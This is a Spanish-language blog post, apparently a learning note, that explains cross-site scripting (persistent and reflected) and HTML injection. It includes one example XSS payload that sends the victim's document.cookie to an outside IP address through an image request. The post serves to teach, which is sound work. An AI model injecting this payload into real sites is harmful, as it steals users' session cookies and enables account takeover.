 ```yaml
---
layout: post
title:  "Aprendiendo sobre ataques XSS y HTML Injection"
description: Aprendiendo sobre las Vulnerabilidades " XSS// HTML INJECCTION "
tags: Web Attacks xss html injecction
---
```

Seguimos aprendiendo las principales Vulnerabilidades a nivel Web mas Basicas
  
# ~ XSS ~ CROSS SITE SCRIPTING

1.- El XSS del que hablaremos hoy, es una vulnerabilidad en la que el hacker ataca a otros usuarios que se conectan a dicha página web y los ataca en busca de varias cosas: 
secuestrarles la sesión, robarles la contraseña o cualquier otra información que considere de interés.

- Cómo funciona el Cross Site Scripting:
``` 
Existen dos tipos: 
    * directa o persistente 
    * indirecta o reflejada
```
En ambos casos, el atacante malicioso inyecta código sobre algún campo de entrada de datos que ofrezca la página web,
bien sea este la típica cajita con el icono de la lupa para búsqueda de palabras clave, un recuadro de espacio de participación en un foro, o un formulario de recogida de datos.

```
Ejemplo:
    * <script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

# Cross Site Scripting persistente
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro,
el ataque se dice que es persistente. Cualquier usuario que entre a leer dicha contribución leerá el texto inocente pero probablemente no así el código inyectado,
que sin embargo sí será interpretado por el navegador del visitante, ejecutando las instrucciones que el hacker haya definido.

El atacante no puede predecir el usuario que va a caer en la trampa.

# Cross Site Scripting reflejado
Pero si el código que insertamos no se queda almacenado en la web, sino que va embebido dentro de un enlace que se hace llegar de algún modo a la víctima para que pinche en él,
se dice que este tipo de ataque es reflejado. Se llama así porque, si finalmente la víctima pincha en el enlace, el navegador le llevará a la página en cuestión,
que normalmente es un sitio legal donde el usuario tiene cuenta abierta, y a continuación ejecutará el código embebido, el cual intentará robarle la “cookie” de la sesión,
o los datos que introduzca en el formulario, o incluso podrá desencadenar acciones más sofisticadas en su PC.

Pero la característica diferencial con el anterior ataque es que en este caso en el servidor web no queda almacenado nada.

# HTML Injection
La inyección de HTML es un tipo de vulnerabilidad de inyección que se produce cuando un usuario puede controlar un punto de entrada y puede inyectar código HTML arbitrario en una página web vulnerable.
Esta vulnerabilidad puede tener muchas consecuencias, como la divulgación de cookies de sesión de un usuario que podrían usarse para hacerse pasar por la víctima o, de manera más general,
puede permitir que el atacante modifique el contenido de la página visto por las víctimas.

Existe una amplia gama de métodos y atributos que se pueden utilizar para representar contenido HTML.
Si estos métodos se proporcionan con una entrada que no es de confianza, existe un alto riesgo de vulnerabilidad de inyección de HTML.
Por ejemplo, se puede inyectar código HTML malicioso a través del innerHTMLmétodo JavaScript, que generalmente se usa para representar código HTML insertado por el usuario.
Si las cadenas no se desinfectan correctamente, el método puede habilitar la inyección de HTML.
Una función de JavaScript que se puede utilizar para este propósito es document.write().


